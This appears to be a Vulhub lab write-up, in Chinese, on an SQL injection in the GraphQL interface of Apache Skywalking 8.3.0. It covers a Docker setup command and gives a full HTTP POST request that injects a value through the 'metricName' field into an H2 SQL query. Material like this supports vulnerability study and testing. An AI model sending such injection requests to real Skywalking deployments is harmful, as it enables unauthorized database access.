 # Apache Skywalking 8.3.0 SQL注入漏洞

Apache Skywalking是一款针对分布式系统的应用程序性能监视工具，为微服务，云原生和基于容器（Docker，Kubernetes，Mesos）的体系结构而设计。

在Apache Skywalking 8.3.0版本及以前的GraphQL接口中，存在一处H2 Database SQL注入漏洞。

参考链接：

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## 漏洞环境

执行如下命令启动一个Apache Skywalking 8.3.0版本：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看Skywalking的页面。

## 漏洞复现

我们使用graphiql的桌面APP发送如下graphql查询：

![](1.png)

可见，SQL语句已经出错，`metricName`参数的值被拼接到`from`后面。

这个请求的HTTP数据包为：

```
POST /graphql HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 336

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```

更加深入的利用，大家可以自行研究，并欢迎将文档提交到Vulhub中。
